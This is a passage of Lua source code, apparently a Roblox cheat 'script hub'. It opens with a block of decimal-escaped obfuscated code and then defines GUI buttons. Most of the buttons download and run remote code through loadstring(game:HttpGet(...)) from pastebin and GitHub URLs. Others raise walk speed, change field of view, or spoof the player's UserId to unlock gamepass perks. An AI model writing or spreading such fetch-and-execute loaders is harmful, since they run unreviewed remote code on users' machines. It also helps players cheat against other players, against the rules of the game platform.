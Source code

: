 \65\68\77\69\46\109\100\34\41\40\41\10\101\110\100\41\10\32\10\45\45\66\101\100\119\97\114\115\10\108\111\99\97\108\32\84\97\98\32\61\32\87\105\110\100\111\119\58\78\101\119\84\97\98\40\34\66\101\100\119\97\114\115\34\41\10\108\111\99\97\108\32\83\101\99\116\105\111\110\32\61\32\84\97\98\58\78\101\119\83\101\99\116\105\111\110\40\34\69\110\106\111\121\33\34\41\10\10\83\101\99\116\105\111\110\58\78\101\119\66\117\116\116\111\110\40\34\65\110\116\105\75\110\111\99\107\98\97\99\107\34\44\32\34\69\90\34\44\32\102\117\110\99\116\105\111\110\40\41\10\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\39\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\71\100\75\105\110\101\122\106\39\41\41\40\41\59\10\101\110\100\41\10\10\45\45\80\108\97\121\101\114\10\10\108\111\99\97\108\32\84\97\98\32\61\32\87\105\110\100\111\119\58\78\101\119\84\97\98\40\34\80\108\97\121\101\114\34\41\10\108\111\99\97\108\32\83\101\99\116\105\111\110\32\61\32\84\97\98\58\78\101\119\83\101\99\116\105\111\110\40\34\69\110\106\111\121\34\41\10\10\83\101\99\116\105\111\110\58\78\101\119\84\111\103\103\108\101\40\34\70\111\118\34\44\32\34\67\104\97\110\103\101\115\32\70\111\118\34\44\32\102\117\110\99\116\105\111\110\40\115\116\97\116\101\41\10\32\32\32\32\105\102\32\115\116\97\116\101\32\116\104\101\110\10\32\32\32\32\32\32\32\32\103\97\109\101\46\87\111\114\107\115\112\97\99\101\46\67\117\114\114\101\110\116\67\97\109\101\114\97\46\70\105\101\108\100\79\102\86\105\101\119\32\61\32\49\50\48\10\32\32\32\32\32\101\108\115\101\10\32\32\32\32\32\32\32\32\103\97\109\101\46\87\111\114\107\115\112\97\99\101\46\67\117\114\114\101\110\116\67\97\109\101\114\97\46\70\105\101\108\100\79\102\86\105\101\119\32\61\32\56\48\10\32\32\32\32\101\110\100\10\101\110\100\41\10\10\83\101\99\116\105\111\110\58\78\101\119\84\111\111\103\108\101\40\34\83\112\101\101\100\34\44\32\34\105\109\32\102\97\115\116\101\114\32\116\104\97\110\32\117\32\108\111\108\34\44\32\102\117\110\99\116\105\111\110\40\115\116\97\116\101\41\10\32\32\32\105\102\32\115\116\97\116\101\32\116\104\101\110\10\32\32\32\32\32\32\32\103\97\109\101\46\80\108\97\121\101\114\115\46\76\111\99\97\108\80\108\97\121\101\114\46\67\104\97\114\97\99\116\101\114\46\72\117\109\97\110\111\105\100\46\87\97\108\107\83\112\101\101\100\32\61\32\55\48\10\32\32\32\32\101\108\115\101\10\32\32\32\32\32\32\32\103\97\109\101\46\80\108\97\121\101\114\115\46\76\111\99\97\108\80\108\97\121\101\114\46\67\104\97\114\97\99\116\101\114\46\72\117\109\97\110\111\105\100\46\87\97\108\107\83\112\101\101\100\32\61\32\50\48\10\32\32\32\32\32\32\101\110\100\10\101\110\100\41\10")()
end)
Section:NewButton("Raise A Granny", "I think this fe", function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/Balligusapos/Balligusapos/main/SUBTOBALLI"))()
end)
Section:NewButton("Infection Smile (Needs Big screen)", "ButtonInfo", function()
    loadstring(game:HttpGet("https://pastebin.com/raw/WG1BMS72",true))()
end)
End1Section:NewButton("Op Feyz Hub", "some script dont work", function()
    loadstring(game:HttpGet("https://pastebin.com/raw/bzmhRgKL"))();
end)
Section:NewButton("Da Hood Script Da Guix", "I always never forgot to update", function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/xMilesGames/Da-Hood/main/README.md"))()
end)
Section:NewButton("Fe Chaos Gamepass", "Fe", function()
    game.Players.LocalPlayer.UserId = "2205774994"
end)
Section:NewButton("Da Hood Late v1", "Da hood script😁😁", function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/Impulseonyoutube/scripts/main/dahood"))()
end)
End1Section:NewButton("Dodo Hub op", "Fe", function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/albibos/dodobird/main/openhub"))()
end)
Section:NewButton("Anti Afk gui (Anti Kick Afk)", "i dont know", function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/2dgeneralspam1/scripts-and-stuff/master/scripts/LoadstringypVvhJBq4QNz", true))()
end)
Section:NewButton("Goal Kicking Simulator Op", "Cr", function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/insanedude59/Scripts/main/GoalKickSimulator"))()
end)
Section:NewSlider("Speed But slider", "Hello there", 1000, 16, function(s) 
    game.Players.LocalPlayer.Character.Humanoid.WalkSpeed = s
end)
Section:NewButton("Sing Rickroll😂", "never gonna give you up", function()
    local song = "Never Gonne Give You Up"